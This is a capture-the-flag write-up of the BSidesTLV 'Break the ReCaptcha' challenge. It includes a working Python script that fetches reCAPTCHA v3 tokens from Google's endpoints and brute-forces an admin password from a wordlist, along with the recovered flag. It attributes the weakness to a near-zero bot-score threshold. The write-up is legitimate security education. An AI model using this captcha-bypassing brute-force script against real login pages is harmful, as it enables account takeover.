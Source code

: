 # Break the ReCaptcha
* Category: Web Application
* 500 Points
* Solved by the JCTF Team

## Description
> Dear Pentester!
> 
> I'm writing to you because don't know what to do!
> I've implemented a ReCaptcha mechanism on my website and attackers are always taking over my account!
> I'll give you a file that contains all of my possible passwords and you will be able to reproduce the vulnerability?
> 
> http://recaptcha.challenges.bsidestlv.com/
> 
> username: admin

A file with a list of passwords was attached.

## Solution

We enter the site and see the following simple login API:

![](images/recaptcha.png)

Behind the scenes is a real life Google ReCaptcha.

The relevant source code is:

```html
    <script src="https://www.google.com/recaptcha/api.js?render=6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt"></script>
    <script>
        // when form is submit
        $( document ).ready(function() {

            $('form').submit(function () {
                // we stoped it
                event.preventDefault();
                // needs for recaptacha ready
                grecaptcha.ready(function () {
                    // do request for recaptcha token
                    // response is promise with passed token
                    grecaptcha.execute('6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt', {action: 'create_comment'}).then(function (token) {
                        $.post("/verify", {username: $('#username').val(), password: $('#password').val(), token: token}, function (result) {
                            $("#result").html(result);
                        });
                    });
                });
            });
        });
    </script>
</head>
<body>
<div class="wrapper fadeInDown">
    <div id="formContent">

        <!-- Login Form -->
        <form>
            <input type="text" id="username" class="fadeIn second" name="username" placeholder="Username">
            <input type="password" id="password" class="fadeIn third" name="password" placeholder="Password">
            <input type="submit" class="fadeIn fourth" value="Log In">
        </form>
        <div id="result"></div>
    </div>
</div>
```


We can use the browser developer tools in order to inspect what's happening under the hood:

![](images/recaptcha_calls.png)

We have an initial call to `anchor`, then for each attempt at entering a password, a call to `reload` and `verify`.

Diving into the requests and responses, we can see that a token received from `anchor` is being passed again during `reload`, and some data from `reload` gets sent in `verify` (which belongs to the actual website and isn't part of the ReCaptcha service).

We can mimic the same behavior with the following script:

```python
import requests
import json
import re


recaptcha_regex = re.compile(r'<input type="hidden" id="recaptcha-token" value="([^"]+)">')

def try_password(password):   
    s = requests.session()

    r = s.get("https://www.google.com/recaptcha/api2/anchor?ar=1&k=6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt&co=aHR0cDovL3JlY2FwdGNoYS5jaGFsbGVuZ2VzLmJzaWRlc3Rsdi5jb206ODA.&hl=en&v=v1561357937155&size=invisible")
    match = recaptcha_regex.search(r.text)
    if match is None:
        return None

    recaptcha_token = match.group(1)

    data = { "reason": "q", "c": recaptcha_token }

    r = s.post("https://www.google.com/recaptcha/api2/reload?k=6Lfpb6QUAAAAAIitLDqVlxHB-EceE-d1ujb_6tVt", data = data)

    text = r.text

    #https://stackoverflow.com/questions/35348234/recaptcha-gets-invalid-json-from-call-to-https-www-google-com-recaptcha-api2-u/36862268#36862268
    prefix = ")]}'"
    if text.startswith(prefix):
        text = text[len(prefix):]
    
    json_obj = json.loads(text)

    r = s.post("http://recaptcha.challenges.bsidestlv.com/verify", data = {"username": "admin", "password": password, "token": json_obj[1]})
    return r.text

with open("passwords.txt") as f:
    for line in f:
        password = line.rstrip()
        res = try_password(password)
        if res != "Username/Password invalid!":
            print (password)
            print (res)
            break
```

After some time, the following result is returned:
```console
root@kali:/media/sf_CTFs/bsidestlv/Break_the_ReCaptcha# python3 solve.py
brandon
BSidesTLV{D0ntF0rgetT0Ch3ckTh3Sc0r3!}
```

ReCaptcha is a real-life service, so what's the vulnerability that allowed this?
Based on the flag value, we assume it's related to the "BOT Score":

> reCAPTCHA v3 returns a score (1.0 is very likely a good interaction, 0.0 is very likely a bot). Based on the score, you can take variable action in the context of your site. Every site is different [...] As reCAPTCHA v3 doesn't ever interrupt the user flow, you can first run reCAPTCHA without taking action and then decide on thresholds by looking at your traffic in the admin console. By default, you can use a threshold of 0.5. 
> 
> (Source: [Official Documentation](https://developers.google.com/recaptcha/docs/v3))

The score threshold must have been set to ~0 in order to allow us to automate this process.

